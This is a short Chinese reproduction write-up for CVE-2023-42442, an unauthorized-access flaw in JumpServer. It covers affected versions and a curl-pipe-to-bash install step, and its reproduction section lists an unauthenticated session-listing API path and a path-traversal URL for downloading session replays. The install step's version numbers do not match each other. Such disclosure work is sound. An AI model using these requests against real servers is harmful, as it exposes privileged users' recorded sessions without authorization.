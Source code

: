 # CVE-2023-42442

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** JumpServer未授权访问漏洞

## 0x01 简介

Jump Server 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。JumpServer 帮助企业以更安全的方式管控和登录所有类型的资产，实现事前授权、事中监察、事后审计，满足等保合规要求。

## 0x02 影响范围

3.0.0 <= Jump Server <= 3.6.3

## 0x03 环境搭建

在CentOS7系统下执行如下命令即可进行快速安装：

```bash
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.6.0/quick_start.sh | bash
cd /opt/jumpserver-installer-v3.8.1
./jmsctl.sh start
```

## 0x04 漏洞复现

```bash
/api/v1/terminal/sessions/
```

![Untitled](image/Untitled.png)

```bash

# 通过/api/v1/terminal/sessions/获取到的会话ID，下载对应的会话回放
/media/xpack/../replay/[date]/[id].cast.gz
# date格式为2023-11-13
# id的值为上一步中获取的id
```

![Untitled](image/Untitled%201.png)
